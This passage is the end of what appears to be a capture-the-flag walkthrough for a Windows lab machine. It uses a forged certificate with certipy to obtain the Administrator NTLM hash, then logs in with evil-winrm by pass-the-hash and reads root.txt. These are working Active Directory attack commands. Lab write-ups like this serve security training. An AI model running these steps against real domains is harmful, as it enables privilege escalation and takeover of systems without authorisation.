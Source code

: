     This generates `admin_forged.pfx`.

4.  **Get Administrator NTLM Hash:**

    ```bash
    certipy auth -pfx admin_forged.pfx -dc-ip 10.10.11.71 -output-format ntlm
    ```

    This provides the NTLM hash for the `Administrator`.

5.  **Final Root Access:**
    Use `evil-winrm` with the Administrator's NTLM hash.

    ```bash
    evil-winrm -i 10.10.11.71 -u Administrator -H <Administrator_NTLM_hash>
    ```

    You now have a root shell.

    ```powershell
    cd C:\Users\Administrator\Desktop
    type root.txt
    ```